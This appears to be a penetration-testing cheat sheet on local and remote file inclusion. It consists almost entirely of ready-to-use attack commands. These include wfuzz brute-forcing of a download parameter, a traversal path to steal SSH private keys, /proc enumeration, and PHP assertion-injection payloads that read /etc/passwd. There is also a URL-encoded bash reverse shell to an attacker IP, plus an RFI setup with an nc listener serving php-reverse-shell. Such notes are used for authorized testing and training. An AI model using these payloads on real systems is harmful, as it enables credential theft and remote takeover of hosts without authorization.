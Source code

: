 ### :open_file_folder: Check file

lists

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_windows.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/wordlists/file_inclusion_linux.txt

https://github.com/carlospolop/Auto_Wordlists/blob/main/custom_wordlists/file_inclusion_linux.txt

Check files

```
wfuzz -c -w file_inclusion_linux.txt --hw 0 http://<target ip>/download.php?downloadurl=FUZZ
```

Next, we can test reading the ssh key

```
../../../../../home/<username>/.ssh/id_rsa
```

### :open_file_folder: [Proc File System](https://www.netspi.com/blog/technical/web-application-penetration-testing/directory-traversal-file-inclusion-proc-file-system/)

```
wfuzz -u http://<target ip>/download.php?downloadurl=/proc/FUZZ/cmdline -z range,1-1000 --hw 1

curl http://<target ip>/download.php?downloadurl=/proc/824/cmdline --output service.txt
```

PHP assertions

```shell
page=' and die(show_source('/etc/passwd')) or '
page=' and die(system('cat /etc/passwd')) or '
# url encode , page=<encode command string>, escape single quotes 
# page=' and die(system('echo \'/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1\' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh')) or '
page=' and die(system('echo '%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F<attacker ip>%2F<attacker port> 0>%261' > %2Ftmp%2Frevshell.sh %26%26 chmod 777 %2Ftmp%2Frevshell.sh %26%26 %2Fbin%2Fbash %2Ftmp%2Frevshell.sh')) or '%0A
```

RFI

- method1 

    attacker

    ```shell
    # modify attcker ip and port, e.g., 192.168.10.100 4444
    locate php-reverse-shell
    # start http server
    sudo python3 -m http.server 80
    # listen on port 4444
    sudo nc -nlvp 4444
    ```

    target

    ```shell
    # vulnerability page
    /test.php?url=http://<attcker ip>:<attacker port>/php-reverse-shell.php
    ```
